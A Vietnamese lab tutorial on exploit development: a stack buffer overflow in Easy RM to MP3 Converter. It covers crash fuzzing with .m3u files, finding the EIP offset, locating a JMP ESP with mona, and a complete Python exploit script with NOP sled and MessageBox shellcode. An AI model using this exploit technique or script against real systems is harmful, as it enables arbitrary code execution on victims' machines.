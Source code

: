 # babe kajima 

## Mô hình 

- Sử dụng CentOS7 cài đặt python 
- Sử dụng win7 32 bit cài đặt python 2.7.14

## Tải phần mềm Easy RM to MP3 Converter

Bước 1: 

- Tải phần mềm cài đặt tại <a href="https://samsclass.info/127/proj/707414955696c57b71c7f160c720bed5-EasyRMtoMP3Converter.exe">đây</a>.

- Sau khi cài đặt xong 


    <img src="https://i.imgur.com/i3F63B2.png">

- Trên máy CentOS sử dụng chương trình python tạo ra 10000 kí tự A 

    ```
    vim gen_payload.py
    ```
    ```
    #!/usr/bin/python
    attack = 'A' * 10000
    print attack
    ````

    Ghi vào một file đuôi m3u

    ```
    python gen_payload.py > demo.m3u
    ```

    Sử dụng python run webserver 

    ```
    python -m SimpleHTTPServer 8888
    ```

- Trên máy win7 truy cập vào http://IP_centos:8888 tải file demo.m3u

    <img src="https://i.imgur.com/2sFEiyO.png">

- Chạy demo.m3u trên ứng dụng convert 

    Chọn Load sau đó tới đường dẫn thư mục chứa demo.m3u đã tải về 

    <img src="https://i.imgur.com/cpguxpo.png">

Bước 2: 

- Làm tương tự bước 1 tăng lên 20000 kí tự 
- Đến 30000 kí tự ứng dụng bị crash 

    <img src="https://i.imgur.com/OQcdziQ.png">

Bước 3: 

- Tạo ra một chuỗi payload để xác định độ dài buffer 

    ```
    #!/usr/bin/python

    prefix = 'A' * 20000
    chars = ''
    for a in range(0x41, 0x5A):
    for i in range(0x30, 0x3A):
        for j in range(0x30, 0x3A):
            chars += chr(a) + chr(a) + chr(i) + chr(j)
    attack = prefix + chars
    print attack
    ```

    ```
    python gen_payload.py > payload.m3u
    ```

    payload gồm 20000 kí tự A và 25000 một nhóm gồm 4 kí tự có dạng như sau 

    ```
    A...
    A...
    A...
    AA00 AA01 AA02 ... AA98 AA99 
    BB00 BB01 BB02 ... BB98 BB99 
                ...
    PP00 ...  PP22 PP23 ... PP99 
                ...
    YY00 YY01 YY02 ... YY98 YY99
    ```


Bước 4: 

- Mở Immunity Debugger click File => Open 

    <img src="https://i.imgur.com/QQIRM2Q.png">

- F9 để run ứng dụng 
- Load file chứa payload

    <img src="https://i.imgur.com/ZGf8pRw.png">

- Giá trị EIP đang là 50313250 

```
50 P
31 1
32 2
50 P
```
Intel processors are "Little Endian", so addresses are inserted in reverse order => EIP là 'P21P'

- P21P năm ở hàng số  16 cột số  21 => 15*400 + 21*4 +1

=> buffer có độ dài 6085


Bước 6: exploit 

- Tìm một module có ASLR=False và Rebase=False

    ```
    !mona modules
    ```

    <img src="https://i.imgur.com/ZIQDQUX.png">

- Tìm địa chỉ lệnh jump ESP

    Việc ghi đè EIP bằng địa chỉ của ESP khiến chúng ta có thể chạy shellcode ở địa chỉ ô nhớ tiếp sau đó.

    jump esp là một kỹ thuật phổ biến trên thực tế, các ứng dụng Windows sử dụng một hoặc nhiều dll, và các dll này chứa rất nhiều code instructions. Hơn nữa các địa chỉ được sử dụng bởi các dll này khá tĩnh. Vì vậy mình có thể tìm thấy một dll có chứa lệnh để chuyển sang đặc biệt và có thể ghi đè EIP bằng địa chỉ của lệnh đó trong dll mà chúng ta tìm thấy.

    ```
    !mona jmp -r esp -m MSRMfilter03.dll
    ```

    <img src="https://i.imgur.com/jUYGKDQ.png">

    ```
    #!/usr/bin/python

    prefix = 'A' * (20000 + 15*400 + 21*4 + 1)
    eip = '\x58\xb0\x01\x10'
    skip4 = 'FFFF'
    nopsled = '\x90' * 16
    shellcode = (
    "\x33\xc9\x64\x8b\x49\x30\x8b\x49\x0c\x8b" +
    "\x49\x1c\x8b\x59\x08\x8b\x41\x20\x8b\x09" +
    "\x80\x78\x0c\x33\x75\xf2\x8b\xeb\x03\x6d" +
    "\x3c\x8b\x6d\x78\x03\xeb\x8b\x45\x20\x03" +
    "\xc3\x33\xd2\x8b\x34\x90\x03\xf3\x42\x81" +
    "\x3e\x47\x65\x74\x50\x75\xf2\x81\x7e\x04" +
    "\x72\x6f\x63\x41\x75\xe9\x8b\x75\x24\x03" +
    "\xf3\x66\x8b\x14\x56\x8b\x75\x1c\x03\xf3" +
    "\x8b\x74\x96\xfc\x03\xf3\x33\xff\x57\x68" + 
    "\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68" +
    "\x4c\x6f\x61\x64\x54\x53\xff\xd6\x33\xc9" +
    "\x57\x66\xb9\x33\x32\x51\x68\x75\x73\x65" +
    "\x72\x54\xff\xd0\x57\x68\x6f\x78\x41\x01" +
    "\xfe\x4c\x24\x03\x68\x61\x67\x65\x42\x68" +
    "\x4d\x65\x73\x73\x54\x50\xff\xd6\x57\x68" +
    "\x72\x6c\x64\x21\x68\x6f\x20\x57\x6f\x68" +
    "\x48\x65\x6c\x6c\x8b\xcc\x57\x57\x51\x57" +
    "\xff\xd0\x57\x68\x65\x73\x73\x01\xfe\x4c" +
    "\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78" +
    "\x69\x74\x54\x53\xff\xd6\x57\xff\xd0"
    )
    int3 = '\xCC'
    padding = 'F' * (30000 - len(prefix) - 4 -4 -16 - 1 - len(shellcode))
    attack = prefix + eip + skip4 + nopsled + shellcode + int3 + padding
    print attack
    ```

Bước 7: 

<img src="https://i.imgur.com/xUTdzLO.gif">
